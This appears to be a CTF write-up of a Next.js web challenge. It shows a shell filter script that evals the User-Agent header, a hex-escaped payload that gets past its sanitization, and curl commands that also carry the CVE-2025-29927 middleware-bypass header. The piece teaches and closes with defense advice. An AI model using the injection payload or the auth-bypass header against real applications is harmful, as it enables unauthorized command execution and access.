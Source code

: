 # <div align="center"><span style="color:#f03c15">COMMAND INJECTION IN THE LOGS</span></div>

<div align="center">
  <h2 style="color:#4287f5">AISEC ENSA MARRAKECH CTF 2025</h2>
  <p><b>Challenge Creator</b>: hmidal3yan | <b>Difficulty</b>: <span style="color:#f59e0b">Medium</span> | <b>Category</b>: <span style="color:#10b981">Web Exploitation</span></p>
  <hr style="border: 1px solid #ddd; margin: 20px 0">
</div>

## <span style="color:#38bdf8">TARGET OVERVIEW</span>

This Next.js application records user interactions in log files. The critical vulnerability exists in how the system processes the `User-Agent` field in the `contact.log` file - specifically, an unsafe `eval` command that gives us our foothold.

### <span style="color:#a855f7">System Constraints:</span>
- <span style="color:#ef4444">⚠️</span> The filter script runs with limited user privileges (`filteruser`)
- <span style="color:#ef4444">⚠️</span> Available commands are restricted to those in `/restricted/bin`
- <span style="color:#ef4444">⚠️</span> Flag requires activation via the `flag` command before retrieval
- <span style="color:#ef4444">⚠️</span> Flag is only accessible for 2 minutes after activation
- <span style="color:#ef4444">⚠️</span> Special cookie required to access the flag endpoint

## <span style="color:#38bdf8">ATTACK SURFACE</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">
The application exposes several attack vectors:

```
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Contact Form   │──────▶│  Log Files   │──────▶│ Filter Script │
│  /api/contact   │       │ contact.log  │       │ (vulnerable)  │
│                 │       │              │       │               │
└─────────────────┘       └──────────────┘       └───────────────┘
                                                         │
                                                         │
                                                         ▼
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Flag Endpoint  │◀──────│ Flag Checker │◀──────│ Filtered Logs │
│ /api/i7tiramati │       │              │       │               │
│                 │       └──────────────┘       └───────────────┘
└─────────────────┘
```
</div>

### <span style="color:#a855f7">Key API Endpoints:</span>
- <span style="color:#f97316; font-weight:bold">POST /api/contact</span>: Logs User-Agent to `contact.log` (our injection point)
- <span style="color:#f97316; font-weight:bold">GET /api/logs</span>: Retrieves processed logs from `logs/filtered`
- <span style="color:#f97316; font-weight:bold">GET /api/i7tiramati</span>: Returns the flag (requires authentication + activation)

## <span style="color:#ef4444">CRITICAL VULNERABILITY</span>

<div style="background-color:#fef2f2; color:#7f1d1d; padding:15px; border-radius:5px; border-left:4px solid #ef4444">
The filter script processes log entries with a dangerous pattern:

```bash
# Vulnerable code in filter.sh
sanitized=$(echo "$user_agent" | sed 's/[;&|`$()]//g')
decoded=$(printf '%b' "$sanitized")
processed=$(eval "echo \"$decoded\"")
```

This unsafe `eval` is badly sanitized and allows use to use Hexa to bypass the sanitization and execute arbitrary commands when our payload is processed by the filter script.
</div>

## <span style="color:#10b981">EXPLOITATION WALKTHROUGH</span>

<div style="display:flex; margin-bottom:20px;">
  <div style="flex:1; padding:10px; background-color:#ecfdf5; border-radius:5px; margin-right:10px; border-left:4px solid #10b981">
    <h3 style="color:#10b981">PHASE 1: RECONNAISSANCE</h3>
    <ol>
      <li>Examine the application structure</li>
      <li>Identify the vulnerable log processing mechanism</li>
      <li>Understand the flag activation requirements</li>
    </ol>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#eff6ff; border-radius:5px; margin:0 10px; border-left:4px solid #3b82f6">
    <h3 style="color:#3b82f6">PHASE 2: PAYLOAD CRAFTING</h3>
    <p>We need to:</p>
    <ul>
      <li>Inject a command that executes the `flag` command</li>
      <li>Obtain the special cookie by using `\x24\x28flag\x29` as our User-Agent</li>
      <li>Prepare for accessing the flag endpoint</li>
    </ul>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#fef2f2; border-radius:5px; margin-left:10px; border-left:4px solid #ef4444">
    <h3 style="color:#ef4444">PHASE 3: EXPLOITATION</h3>
    <ol>
      <li>Submit a contact form with our crafted User-Agent payload</li>
      <li>Wait for the filter script to process our payload (runs every 3 minutes)</li> 
      <li>Confirm flag activation (writes "1" to `/tmp/.flag_activated`)</li>
      <li>Access `/api/i7tiramati` with the acquired cookie</li>
    </ol>
  </div>
</div>

## <span style="color:#f59e0b">EXPLOITATION TOOLS</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">

```bash
# Crafting payload with curl
curl -X POST http://target:3000/api/contact \
  -H "Content-Type: application/json" \
  -H "User-Agent: \x24\x28flag\x29" \
  -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
  -d '{"name":"hacker","email":"exploit@test.com","message":222 /to cause ERROR/}'
THAT IS THE PAYLOAD STRUCTURE BUT IT IS BETTER TO USE POSTMAN OR BURPSUITE so you capture the cookie returned to the user.
# Retrieving flag
curl -X GET http://target:3000/api/i7tiramati \
      -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
      -H "Cookie: special_cookie=value_from_response"
```
</div>

## <span style="color:#38bdf8">REAL-WORLD CONNECTIONS</span>

This challenge draws inspiration from CVE-2025-29927, a Next.js middleware bypass vulnerability where attackers could bypass authentication by adding a specific header:

<div style="background-color:#1e293b; padding:15px; border-radius:5px; color:#94a3b8; font-family:monospace;">
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware
</div>

While our challenge focuses on command injection rather than middleware bypass, both exploits demonstrate how HTTP headers can be weaponized to compromise application security.

## <span style="color:#a855f7">DEFENSE STRATEGIES</span>

<div style="background-color:#f8fafc; padding:15px; border-radius:5px; border:1px solid #e2e8f0">
To prevent this type of vulnerability:
<ul>
  <li><span style="color:#ef4444">✕</span> Never use `eval` with untrusted input</li>
  <li><span style="color:#10b981">✓</span> Implement strict input validation for all user-controllable fields</li>
  <li><span style="color:#10b981">✓</span> Use proper shell escaping when processing log entries</li>
  <li><span style="color:#10b981">✓</span> Run processing scripts with minimal privileges</li>
  <li><span style="color:#10b981">✓</span> Implement proper authentication for sensitive endpoints</li>
</ul>
</div>

<div align="center" style="margin-top:40px; padding:20px; background-color:#10b981; color:white; border-radius:5px;">
  <h2>Challenge completed! Add this to your collection of pwned systems.</h2>
</div>
